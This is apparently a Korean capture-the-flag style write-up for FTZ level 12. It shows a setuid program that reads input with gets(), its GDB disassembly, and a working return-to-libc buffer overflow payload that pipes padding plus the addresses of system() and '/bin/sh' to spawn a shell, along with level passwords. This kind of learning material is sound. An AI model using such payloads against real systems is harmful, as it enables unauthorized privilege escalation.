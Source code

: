 ```yaml
---
sort: 12
---
```


# Level 12

```note
id : level12

password : it is like this
```

hint를 보면 attackme의 소스코드가 나온다.<br>
attackme에 setuid가 걸려있으니 얘를 공격해보자.

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
 
int main( void )
{
	char str[256];

 	setreuid( 3093, 3093 );
	printf( "문장을 입력하세요.\n" );
	gets( str );
	printf( "%s\n", str );
}
```

gets는 input의 길이에 상관없이 개행문자를 만날때까지 복사를 한다. 따라서 buffer overflow 취약점이 존재한다.<br>
이번에는 argv가 아니라 stdin을 통해서 입력받기 때문에 pipe를 이용하여 입력해야하는 점을 제외하면 level11과 똑같다<br><br>
GDB를 이용하여 attackme의 main함수를 disassemble했다.

<pre>
(gdb) disas main
Dump of assembler code for function main:
0x08048470 (main+0):	push   %ebp
0x08048471 (main+1):	mov    %esp,%ebp
0x08048473 (main+3):	sub    $0x108,%esp
0x08048479 (main+9):	sub    $0x8,%esp
0x0804847c (main+12):	push   $0xc15
0x08048481 (main+17):	push   $0xc15
0x08048486 (main+22):	call   0x804835c (setreuid)
0x0804848b (main+27):	add    $0x10,%esp
0x0804848e (main+30):	sub    $0xc,%esp
0x08048491 (main+33):	push   $0x8048538
0x08048496 (main+38):	call   0x804834c (printf)
0x0804849b (main+43):	add    $0x10,%esp
0x0804849e (main+46):	sub    $0xc,%esp

<b>0x080484a1 (main+49):	lea    0xfffffef8(%ebp),%eax
0x080484a7 (main+55):	push   %eax
0x080484a8 (main+56):	call   0x804831c (gets) </b>

0x080484ad (main+61):	add    $0x10,%esp
0x080484b0 (main+64):	sub    $0x8,%esp
0x080484b3 (main+67):	lea    0xfffffef8(%ebp),%eax
0x080484b9 (main+73):	push   %eax
0x080484ba (main+74):	push   $0x804854c
0x080484bf (main+79):	call   0x804834c (printf)
0x080484c4 (main+84):	add    $0x10,%esp
0x080484c7 (main+87):	leave  
0x080484c8 (main+88):	ret    
0x080484c9 (main+89):	lea    0x0(%esi),%esi
</pre>

```bash
[level12@ftz level12]$ ldd ./attackme 
	libc.so.6 => /lib/tls/libc.so.6 (0x42000000)
	/lib/ld-linux.so.2 => /lib/ld-linux.so.2 (0x40000000)
```

stdin으로 입력받는 것을 제외하면 level11과 환경이 완벽하게 같은 것을 확인할 수 있다. 따라서 아래와 같이 shell을 딸 수 있었다. pipe를 이용하여 stdin으로 redirect했다. `;cat`을 붙이는 이유는 쉘을 딴 후에도 stdin은 pipe에 의해 redirect되어있는 상태기 때문에 cat을 통해서 shell로 input을 전달하도록 해야한다.

```bash
# padding 0x10c byte + system함수 주소 + 4byte padding + "/bin/sh" 주소
[level12@ftz level12]$ (python -c "print('A'*0x10c + '\xc0\xf2\x03\x42\x41\x41\x41\x41\xa4\x7e\x12\x42\n')";cat) | ./attackme
문장을 입력하세요.
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA쟌BAAAA?B
my-pass
```

```tip
## 알게 된 점

buffer overflow, RTL

pipe
```